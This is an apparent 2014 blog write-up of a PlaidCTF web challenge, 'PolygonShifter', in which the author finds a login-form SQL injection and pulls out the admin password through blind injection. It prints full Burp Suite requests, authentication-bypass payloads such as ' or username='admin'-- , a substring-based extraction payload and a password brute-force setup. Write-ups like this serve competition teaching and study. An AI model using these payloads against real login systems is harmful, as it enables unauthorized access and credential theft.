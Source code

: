```yaml
---
id: 1873
title: 'PlaidCTF writeup for Web-100 &#8211; PolygonShifter (blind sql injection)'
date: '2014-04-17T12:55:06-05:00'
author: ron
layout: post
guid: 'https://blog.skullsecurity.org/?p=1873'
permalink: /2014/plaidctf-writeup-for-web-100-blind-sql-injection
categories:
    - hacking
    - plaidctf-2014
    - tools
---
```


Hey folks,

I know in my last blog I promised to do a couple exploit ones instead of doing boring Web stuff. But, this level was really easy and I still wanted to do a writeup, so you're just going to have to wait a little while longer for my 'kappa' writeup!
<!--more-->
This 100-point Web challenge, called PolygonShifter, basically added some anti-bot defenses to a Web site by obfuscating the username/password field names, as well as the action for the POST request. When you visited the page, you'd see something like this:

<pre>
<span class="htmlTag">&lt;</span><span class="htmlTagName">form</span><span class="htmlTag"> </span><span class="htmlArg">action</span><span class="htmlTag">=</span><span class="Constant">&quot;/S1tl90gme2GJ67epbZz9&quot;</span><span class="htmlTag"> </span><span class="htmlArg">method</span><span class="htmlTag">=</span><span class="Constant">&quot;POST&quot;</span><span class="htmlTag">&gt;</span>
    <span class="htmlTag">&lt;</span><span class="htmlTagName">label</span><span class="htmlTag"> </span><span class="htmlArg">for</span><span class="htmlTag">=</span><span class="Constant">&quot;&quot;</span><span class="htmlTag"> </span><span class="htmlArg">style</span><span class="htmlTag">=</span><span class="Constant">&quot;text-align:left;&quot;</span><span class="htmlTag">&gt;</span>Username<span class="htmlEndTag">&lt;/</span><span class="htmlTagName">label</span><span class="htmlEndTag">&gt;</span>
    <span class="htmlTag">&lt;</span><span class="htmlTagName">input</span><span class="htmlTag"> </span><span class="htmlArg">type</span><span class="htmlTag">=</span><span class="Constant">&quot;text&quot;</span><span class="htmlTag"> </span><span class="htmlArg">id</span><span class="htmlTag">=</span><span class="Constant">&quot;lK1TFqrcp3fvIRSg8V7T&quot;</span><span class="htmlTag"> </span><span class="htmlArg">name</span><span class="htmlTag">=</span><span class="Constant">&quot;L1UIVbxzFD8wUUo8SaJH&quot;</span><span class="htmlTag">&gt;</span>
    <span class="htmlTag">&lt;</span><span class="htmlTagName">label</span><span class="htmlTag"> </span><span class="htmlArg">for</span><span class="htmlTag">=</span><span class="Constant">&quot;LkW7Ye9ItPb8CGeKZrMU&quot;</span><span class="htmlTag"> </span><span class="htmlArg">style</span><span class="htmlTag">=</span><span class="Constant">&quot;text-align:left;&quot;</span><span class="htmlTag">&gt;</span>Password<span class="htmlEndTag">&lt;/</span><span class="htmlTagName">label</span><span class="htmlEndTag">&gt;</span>
    <span class="htmlTag">&lt;</span><span class="htmlTagName">input</span><span class="htmlTag"> </span><span class="htmlArg">type</span><span class="htmlTag">=</span><span class="Constant">&quot;password&quot;</span><span class="htmlTag"> </span><span class="htmlArg">id</span><span class="htmlTag">=</span><span class="Constant">&quot;LkW7Ye9ItPb8CGeKZrMU&quot;</span><span class="htmlTag"> </span><span class="htmlArg">name</span><span class="htmlTag">=</span><span class="Constant">&quot;LmmURBa3S5NRYBwzHXhC&quot;</span><span class="htmlTag">&gt;</span>
    <span class="htmlTag">&lt;</span><span class="htmlTagName">input</span><span class="htmlTag"> </span><span class="htmlArg">class</span><span class="htmlTag">=</span><span class="Constant">&quot;primary large&quot;</span><span class="htmlTag"> </span><span class="htmlArg">type</span><span class="htmlTag">=</span><span class="Constant">&quot;submit&quot;</span><span class="htmlTag"> </span><span class="htmlArg">value</span><span class="htmlTag">=</span><span class="Constant">&quot;Login&quot;</span><span class="htmlTag">&gt;</span>
<span class="htmlEndTag">&lt;/</span><span class="htmlTagName">form</span><span class="htmlEndTag">&gt;</span>
</pre>

I immediately installed the 'httparty' gem and started writing a solution in ruby, when I had an inspiration. I tried using the same action multiple times, and it worked! It would only work for a few minutes before I had to refresh and get a new one. But, that was enough!

I decided&mdash;incorrectly&mdash;that this was likely a brute-force level, so I fired up Burp Suite, chose 'Intruder' mode, and set it to something like:

<pre>
<span class="Identifier">POST /im6Kh1pOKr7Y9bbDHiew HTTP/1.0</span>
<span class="Identifier">Host</span><span class="Normal">:</span><span class="Constant"> 54.204.80.192</span>
<span class="Identifier">User-Agent</span><span class="Normal">:</span><span class="Constant"> Mozilla/5.0 (X11; Linux x86_64; rv</span><span class="Normal">:</span><span class="Constant">17</span>.0) Gecko/20100101 Firefox/17.0
<span class="Identifier">Accept</span><span class="Normal">:</span><span class="Constant"> text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8</span>
<span class="Identifier">Accept-Language</span><span class="Normal">:</span><span class="Constant"> en-US,en;q=0.5</span>
<span class="Identifier">Accept-Encoding</span><span class="Normal">:</span><span class="Constant"> gzip, deflate</span>
<span class="Identifier">DNT</span><span class="Normal">:</span><span class="Constant"> 1</span>
<span class="Identifier">Proxy-Connection</span><span class="Normal">:</span><span class="Constant"> keep-alive</span>
<span class="Identifier">Referer</span><span class="Normal">:</span><span class="Constant"> http</span><span class="Normal">:</span>//54.204.80.192/example
<span class="Identifier">Cookie</span><span class="Normal">:</span><span class="Constant"> resolution=1920; session=.eJxdzc0OwTAAAOBXkZ4dSkJC4kDaSYSOTruuF2nXonSz2GR-4t2JC_YAX74HUGnlTvlm66w3YPgALQ2GQMWwG3V31xQP5unByDCeOYr3hRTpCDzboFBlWZ_OpsFoRpSZBlLGsI4wqw3yjvEAccz-mfuapEMEQZNQI3-LkS8iQW5RzvtruPiYS2nPucpso7JHWoXBqrPwFGvEe5r7jN2JVIj9s5_KwCpZ-TEMp2RP2ZXqO1laQZ0Wyds8Xxv7V7E.Bix5uQ.vhQP7hI43dgozvUAVyBF7MM6C9E</span>
<span class="Identifier">Content-Type</span><span class="Normal">:</span><span class="Constant"> application/x-www-form-urlencoded</span>
<span class="Identifier">Content-Length</span><span class="Normal">:</span><span class="Constant"> 56</span>

<span class="Identifier">zDm8T52TDl5ymYfS3Yh5=admin&amp;FcZtaYem0HE0t9bQQCTE=§password§</span>
</pre>

Then I used Burp Suite's built-in list of passwords to attack the account.

I let the attack run through the ~1000 or so passwords, then added a filter for 'Hello, ' (in order to find good attempts). There weren't any. Damnit, now I need a new plan!

...then, on a random inspiration, I tried an invert search for 'Wrong password'. And there was one entry: a password containing a single quote returned "An error occurred" instead of "Wrong password". *facepalm*, it's sql injection!

So, I tried logging in with:

<ul>
  <li>Username :: admin</li>
  <li>Password :: ' or 1=1-- </li>
</ul>

And immediately, I'm logged in... as 'test'. Derp!

So I changed my credentials to:

<ul>
  <li>Username :: admin</li>
  <li>Password :: ' or username='admin'-- </li>
</ul>

(Don't forget to put a space after the '--' if you're following along!)

And boom! I'm logged in as 'admin'! Finished, right? WRONG! The banner says: "Hello, admin!! My password is the flag!"

Now, it sounds like I need to recover admin's password. CHALLENGE. ACCEPTED.

I threw together a quick Burp Suite Intruder attack that looked like:

<pre>
<span class="Identifier">POST /im6Kh1pOKr7Y9bbDHiew HTTP/1.0</span>
<span class="Identifier">Host</span><span class="Normal">:</span><span class="Constant"> 54.204.80.192</span>
<span class="Identifier">User-Agent</span><span class="Normal">:</span><span class="Constant"> Mozilla/5.0 (X11; Linux x86_64; rv</span><span class="Normal">:</span><span class="Constant">17</span>.0) Gecko/20100101 Firefox/17.0
<span class="Identifier">Accept</span><span class="Normal">:</span><span class="Constant"> text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8</span>
<span class="Identifier">Accept-Language</span><span class="Normal">:</span><span class="Constant"> en-US,en;q=0.5</span>
<span class="Identifier">Accept-Encoding</span><span class="Normal">:</span><span class="Constant"> gzip, deflate</span>
<span class="Identifier">DNT</span><span class="Normal">:</span><span class="Constant"> 1</span>
<span class="Identifier">Proxy-Connection</span><span class="Normal">:</span><span class="Constant"> keep-alive</span>
<span class="Identifier">Referer</span><span class="Normal">:</span><span class="Constant"> http</span><span class="Normal">:</span>//54.204.80.192/example
<span class="Identifier">Cookie</span><span class="Normal">:</span><span class="Constant"> resolution=1920; session=.eJxdzc0OwTAAAOBXkZ4dSkJC4kDaSYSOTruuF2nXonSz2GR-4t2JC_YAX74HUGnlTvlm66w3YPgALQ2GQMWwG3V31xQP5unByDCeOYr3hRTpCDzboFBlWZ_OpsFoRpSZBlLGsI4wqw3yjvEAccz-mfuapEMEQZNQI3-LkS8iQW5RzvtruPiYS2nPucpso7JHWoXBqrPwFGvEe5r7jN2JVIj9s5_KwCpZ-TEMp2RP2ZXqO1laQZ0Wyds8Xxv7V7E.Bix5uQ.vhQP7hI43dgozvUAVyBF7MM6C9E</span>
<span class="Identifier">Content-Type</span><span class="Normal">:</span><span class="Constant"> application/x-www-form-urlencoded</span>
<span class="Identifier">Content-Length</span><span class="Normal">:</span><span class="Constant"> 53</span>

<span class="Identifier">zDm8T52TDl5ymYfS3Yh5=admin&amp;FcZtaYem0HE0t9bQQCTE=%27+or+%28username%3D%27admin%27+and+binary+substring%28password%2C+§1§%2C+1%29+%3D+%27§a§%27%29--+</span>
</pre>

To clean it up, it's basically:

<ul>
  <li>Username :: admin</li>
  <li>Password :: ' or (username='admin' and binary substring(password, $1, 1) = '$2')</li>
</ul>

(Where $1 and $2 are Burp Suite's marked fields)

Then I set Burp Suite to use a 'Cluster Bomb' style of attack, which means that each field has its own set of values that are tried. Then I set the two variables to:

<ul>
  <li>$1 :: numeric, 1 - 45 (I had to keep expanding this since the password was 30+ characters long!)</li>
  <li>$2 :: custom set, a-z A-Z 0-9 + symbols</li>
</ul>

Then I let it run, filtered for 'Hello', and got the following results:

<img src='/blogdata/polygonshifter-solution.png'>

Boom! Arrange those properly and you have your password. :)


